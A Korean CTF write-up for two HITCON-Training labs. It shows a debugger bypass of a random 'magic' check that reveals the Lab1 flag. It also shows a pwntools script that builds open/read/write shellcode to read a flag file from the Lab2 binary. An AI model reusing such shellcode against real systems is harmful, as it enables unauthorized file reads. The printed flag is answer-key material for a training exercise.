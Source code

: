 # HITCON-Training
## Lab1-sysmagic
32bit 프로그램이 열리지가 않아서 고생했다.
sudo-apt로 몇가지를 깔고 나니 해결되었다. 
문제는 상당히 간단한 편이었다. 
~~~c
#include <stdio.h>
#include <unistd.h>



void get_flag(){
	int fd ;
	int password;
	int magic ;
	char key[] = "Do_you_know_why_my_teammate_Orange_is_so_angry???";
	char cipher[] = {7, 59, 25, 2, 11, 16, 61, 30, 9, 8, 18, 45, 40, 89, 10, 0, 30, 22, 0, 4, 85, 22, 8, 31, 7, 1, 9, 0, 126, 28, 62, 10, 30, 11, 107, 4, 66, 60, 44, 91, 49, 85, 2, 30, 33, 16, 76, 30, 66};
	fd = open("/dev/urandom",0);
	read(fd,&password,4);
	printf("Give me maigc :");
	scanf("%d",&magic);
	if(password == magic){
		for(int i = 0 ; i < sizeof(cipher) ; i++){
			printf("%c",cipher[i]^key[i]);
		}
	}
}


int main(){
	setvbuf(stdout,0,2,0);
	get_flag();
	return 0 ;
}
~~~
위와 같은 코드를 확인가능했다. cmp 주소를 확인해봐야 할 거 같아서 gdb를 켰다.
~~~
   0x0804870d <+370>:	push   0x804884d
   0x08048712 <+375>:	call   0x8048480 <__isoc99_scanf@plt>
   0x08048717 <+380>:	add    esp,0x10
   0x0804871a <+383>:	mov    edx,DWORD PTR [ebp-0x80]
   0x0804871d <+386>:	mov    eax,DWORD PTR [ebp-0x7c]
   0x08048720 <+389>:	cmp    edx,eax
   0x08048722 <+391>:	jne    0x8048760 <get_flag+453>
   0x08048724 <+393>:	mov    DWORD PTR [ebp-0x78],0x0
   0x0804872b <+400>:	jmp    0x8048758 <get_flag+445>
   0x0804872d <+402>:	lea    edx,[ebp-0x6f]
   0x08048730 <+405>:	mov    eax,DWORD PTR [ebp-0x78]
~~~
389번째 줄에서 cmp가 일어나는 것을 알 수 있었고 break *get_flag+389를 해주었다. 프로그램을 한번 돌려준 후 
~~~pwndbg
*EAX  0x170c6ecd
 EBX  0x0
 ECX  0x1
 EDX  0x170c6ecd
 EDI  0x0
 ESI  0xf7fb7000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1d7d6c
 EBP  0xffffd148 —▸ 0xffffd158 ◂— 0x0
 ESP  0xffffd0c0 —▸ 0x804a020 (_GLOBAL_OFFSET_TABLE_+32) —▸ 0xf7e472b0 (setvbuf) ◂— push   ebp
 EIP  0x8048720 (get_flag+389) ◂— cmp    edx, eax
~~~
set eax를 edx의 값으로 설정했더니 
*CTF{debugger_1s_so_p0werful_1n_dyn4m1c_4n4lySis!}*
를 확인가능했다.
프로그램이 안 열려서 애먹은 거에 비해 간단한 문제였다
## Lab2-orw
이 문제는 서버가 닫혀 있어서 방법론만 공부하였다. 
~~~
Give my your shellcode:
~~~
프로그램을 실행하니 위와 같이 반응했다. 그리고 pwntool을 통해 짜놓은 exploit code를 hitcon-training git에서 확인했다. shell을 짜려고 하는데 shellcraft라는 방식을 사용해 보았다.
~~~Dump of assembler code for function main:
   0x08048548 <+0>:	lea    ecx,[esp+0x4]
   0x0804854c <+4>:	and    esp,0xfffffff0
   0x0804854f <+7>:	push   DWORD PTR [ecx-0x4]
   0x08048552 <+10>:	push   ebp
   0x08048553 <+11>:	mov    ebp,esp
   0x08048555 <+13>:	push   ecx
   0x08048556 <+14>:	sub    esp,0x4
   0x08048559 <+17>:	call   0x80484cb <orw_seccomp>
   0x0804855e <+22>:	sub    esp,0xc
   0x08048561 <+25>:	push   0x80486a0
   0x08048566 <+30>:	call   0x8048380 <printf@plt>
   0x0804856b <+35>:	add    esp,0x10
   0x0804856e <+38>:	sub    esp,0x4
   0x08048571 <+41>:	push   0xc8
   0x08048576 <+46>:	push   0x804a060
   0x0804857b <+51>:	push   0x0
   0x0804857d <+53>:	call   0x8048370 <read@plt>
   0x08048582 <+58>:	add    esp,0x10
   0x08048585 <+61>:	mov    eax,0x804a060
   0x0804858a <+66>:	call   eax
   0x0804858c <+68>:	mov    eax,0x0
   0x08048591 <+73>:	mov    ecx,DWORD PTR [ebp-0x4]
   0x08048594 <+76>:	leave  
   0x08048595 <+77>:	lea    esp,[ecx-0x4]
   0x08048598 <+80>:	ret    
~~~
위는 dissasemble main의 결과이다. 
~~~python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
r=process("orw.bin")
pay=""
pay+=asm(shellcraft.open("./lab2flag.txt"))
pay+=asm(shellcraft.read("eax","esp",100))
pay+=asm(shellcraft.write(1,"esp",100))
r.recvuntil("shellcode:")
r.sendline(pay)
r.interactive()
~~~
flag.txt에 flag가 들어있을 것을 가정했다.(정보가 없어서 다른 wirteup을 참고했다). shellcraft.open에서는 flag.txt에서 flag를 가져온다고 가정하였다. eax에서 받은 100byte 즉 flag 부분을 esp에 저장시킨 후 다시 100byte만큼 write하도록 payload를 작성했다. 문제의 원형태를 몰라 writeup를 참고했으나 이 역시 어려운 문제는 아닌 듯하다. 
